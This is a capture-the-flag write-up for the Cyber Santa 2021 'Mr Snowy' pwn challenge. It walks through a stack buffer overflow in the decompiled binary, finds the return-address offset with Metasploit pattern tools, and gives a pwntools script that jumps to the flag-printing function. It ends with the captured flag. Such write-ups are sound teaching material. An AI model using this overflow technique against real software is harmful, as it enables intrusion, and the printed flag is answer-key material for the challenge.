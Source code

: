 # Cyber Santa 2021 – Mr Snowy

- **Category:** Pwn
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given a binary called `mr_snowy`. On running the binary we see that we are to figure out the password to deactivate the secret camera.

![Execution of Binary](./images/1.png)

Running `checksec --file=mr_snowy` showed that there was no stack canary, and no PIE, and NX was enabled.

## Solution

Decompiling the executable in `ghidra` gave us 2 main functions to look at.

Firstly, the success condition for getting the flag was to be able to call the `deactivate_camera` function which would then print the flag.

```
void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;

  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,58,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}
```

The second function was the vulnerability of note. (Note: I renamed a few variables for clarity)

```
void investigate(void)

{
  int integer_option;
  char my_option [64];

  fflush(stdout);
  printstr(&DAT_00401878);
  fflush(stdout);
  read(0,my_option,264);
  integer_option = atoi(my_option);
  if (integer_option == 1) {
    puts("\x1b[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
                    /* WARNING: Subroutine does not return */
    exit(22);
  }
  ....
  ....
}
```

A character array of 64 bytes was declared, but 264 bytes was being read in which meant that there was opportunity for buffer overflow.

I used metasploit's exploit scripts to generate a cyclic pattern to generate a de Bruijn sequence (basically given a substring, you can figure out exactly where this substring occurred).

`./pattern_create.rb -l 76`

Using the generated pattern and passing it into the executable when they prompted to choose between investigate and breaking it led to segmentation fault. By running `sudo dmesg` I was able to figure out what was the overwritten instruction pointer.

```
[ 1282.712616] mr_snowy[2354]: segfault at a41346341 ip 0000000a41346341 sp 00007ffd8b0b4df0 error 14
[ 1282.712621] Code: Bad RIP value.
```

Using `./pattern_offset.rb -l 76 -q a41346341`, showed that the offset was 72.

Using all this information we need to craft a payload that will execute the `deactivate_camera` function after we overflow the buffer. Using `readelf -s mr_snowy`, I was able to get the required function address. I had some trouble manually typing in the address because one of the encoded characters was impossible to write ("\x11"), so I had to use a proper script to send the payload.

```
from pwn import *
elf = ELF('../mr_snowy')
offset = 72
payload = flat({offset: elf.symbols.deactivate_camera})
p = elf.process()
p.recvuntil(b'>')
p.sendline(b'1')
p.recvuntil(b'>')
p.sendline(payload)
p.interactive()
```

Trying it out on the remote server gives the flag

```
HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}
```

## Thoughts

- This was my first binary exploitation kind of challenge and really so many things learnt
- This marks the entrance of the rabbit hole of binary exploits that I was about to enter.

